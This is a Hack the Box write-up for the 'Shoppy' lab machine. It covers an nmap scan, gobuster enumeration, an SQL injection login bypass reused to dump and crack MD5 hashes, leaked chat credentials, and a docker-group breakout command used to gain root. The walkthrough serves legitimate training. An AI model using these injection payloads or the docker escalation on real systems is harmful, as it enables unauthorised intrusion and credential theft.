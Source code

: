 +++
author = "Nick"
categories = ["hack the box", "Easy"]
date = 2023-1-14T11:00:00.000Z
publishDate = 2023-1-14T11:00:00.000Z
description = ""
draft = false
thumbnail = "/images/shoppy/logo.png"
slug = "hack-the-box-shoppy"
summary = ""
tags = ["hack the box", "Easy", "Linux", "Burpsuite", "gobuster", "SQL Injection", "container", "gtfobins", "hashcat"]
title = "Hack the Box - Shoppy"
url = "/hack-the-box-shoppy"
+++

Welcome back! Today we are going to be doing the Hack the Box machine - Shoppy. This machine is listed an as Easy machine. Let's start!

As usually, we start with an `nmap` scan. Here are the results:

```
Nmap scan report for 10.10.11.180
Host is up (0.080s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 30 Sep 2022 13:57:05 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 18
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 18
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.2374e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.0354e-05
|     go_gc_d
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 30 Sep 2022 13:57:06 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 18
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 18
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.2374e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.0354e-05
|_    go_gc_d
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.92%I=7%D=9/30%Time=6336F5B2%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,1000,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\
SF:x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Fri,\x2
SF:030\x20Sep\x202022\x2013:57:05\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles_
SF:total\x2018\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\
SF:x20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20applicatio
SF:n\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc
SF:_cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc
SF:_cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x
SF:20TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_t
SF:otal_gc_cycles_total\x2018\n#\x20HELP\x20go_gc_duration_seconds\x20A\x2
SF:0summary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collecti
SF:on\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_d
SF:uration_seconds{quantile=\"0\"}\x204\.2374e-05\ngo_gc_duration_seconds{
SF:quantile=\"0\.25\"}\x209\.0354e-05\ngo_gc_d")%r(HTTPOptions,152B,"HTTP/
SF:1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\x
SF:20charset=utf-8\r\nDate:\x20Fri,\x2030\x20Sep\x202022\x2013:57:06\x20GM
SF:T\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20ru
SF:ntime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counter
SF:\ngo_gc_cycles_automatic_gc_cycles_total\x2018\n#\x20HELP\x20go_gc_cycl
SF:es_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_force
SF:d_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\
SF:n#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\
SF:x20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycl
SF:es_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x2018\n#\x20HEL
SF:P\x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20du
SF:ration\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_d
SF:uration_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x204
SF:\.2374e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x209\.0354e-05\n
SF:go_gc_d");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see three ports - `22`, `80` and `9093`. We also see that we should probably add `shoppy.htb` to our hosts file. We'll start up `burpsuite` and see what's happening on port `80`. We get a landing page saying that the service is coming soon. Looks like we'll start enumerating with `gobuster` and or `ffuf`.

Command:
`gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Right away we see `/login` and `/admin`.

![](/images/shoppy/shoppy1.png)

We head over to the login screen. We try to login with some basic's like `admin` | `admin` and the such but nothing. When we try to give it a basic `SQL Injection` we get a `504 timeout`. There could be something here. After a while of trying all sorts of injections on the field, we land on `admin' || '1=1-- -` letting us login!

![](/images/shoppy/shoppy2.png)

Now that we're in we can see we have access to a `search for users` function. What are the chances we can use the same 'Always true' statement that logged us in, in this field? Sure enough, it also works. We are given a link to 'Download export' The export only contains two users - `josh` and `admin`.

![](/images/shoppy/shoppy3.png)

These hashes look to be `MD5` at first glace. We can crack those pretty easy this day in age.

Command:
`hashcat -m 0 '6ebcea65320589ca4f2f1ce039975995' /usr/share/wordlists/rockyou.txt`

And we get back a match:
`6ebcea65320589ca4f2f1ce039975995:remembermethisway`

So now we have a password for `Josh`. We aren't able to use it for `SSH` so we must be missing something. During our enumeration processes we didn't try to enumerate any subdomains. There very well could be another site being hosted. We'll take a pass with `gobuster` to see if we can enumerate anything additional.

Command:
`gobuster vhost -u shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

That didn't turn up any results. We'll try again with a different lists and we end up finding `mattermost.shoppy.htb`. We'll add this to our hosts file and see what's being hosted.

![](/images/shoppy/shoppy4.png)

Sure enough, there is a login right as we load the page. We are able to login as `josh`. Once we get logged we can dig around and see what we can find. We find an interesting tidbit - 

'Hey @jaeger, when I was trying to install docker on the machine, I started learn C++ and I do a password manager. You can test it if you want, the program is on the deploy machine.'

We can take a look at the 'Deploy Machine' on the side links and see that we have some credentials to that machine given to us - `jaeger`:`Sh0ppyBest@pp!`. Now we can test these credentials against `SSH` to see if we are able to log into that container.

We are able to log into that container and the `user.txt` flag is waiting for us! Now that we're on the box, and we know it's a container, we'll need to seek a way to break out. Generally to do that we need a method to `root`. Let's start to enumerate. A quick `sudo -l` shows we can run `/home/deploy/password-manager` as the `Deploy` user. This was probably the tool that was noted in `mattermost`. So let's try to run the app.

We see we are expected to answer the 'Master Password'.
![](/images/shoppy/shoppy5.png)

We try a few basic passwords but nothing works. So we run `strings` on the file and see something but no password:
![Strings command](/images/shoppy/shoppy6.png)

Next we try `cat`:
![cat command](/images/shoppy/shoppy7.png)

This time we have a bit more insight, we see the password as `Sample`. We plug it into the app and gain some new credentials - `deploy`:`Deploying@pp!`.

![](/images/shoppy/shoppy8.png)

Let's `SSH` into this container using these credentials. Now we're in with another account, let's enumerate. We aren't able to run `sudo` as the `deploy` user. So we'll get a copy of `linpeas` on the container and see what we mightr be able to find. We start up our `SimpleHTTPServer` and user `wget` to download the `linpeas` script. Then we run it.

We see that one of the 95%  Escalation Vectors that pops up is that the user belongs to the `Docker` group. So we can check [hatrick](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout) and [gtfo bins](https://gtfobins.github.io/gtfobins/docker/) for paths up. We will try the following:

Command:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

It works, we escalate to `root` in the container!

![Priv Esc works!](/images/shoppy/shoppy9.png)

We then `cat` the `root.txt` flag and box is completed!
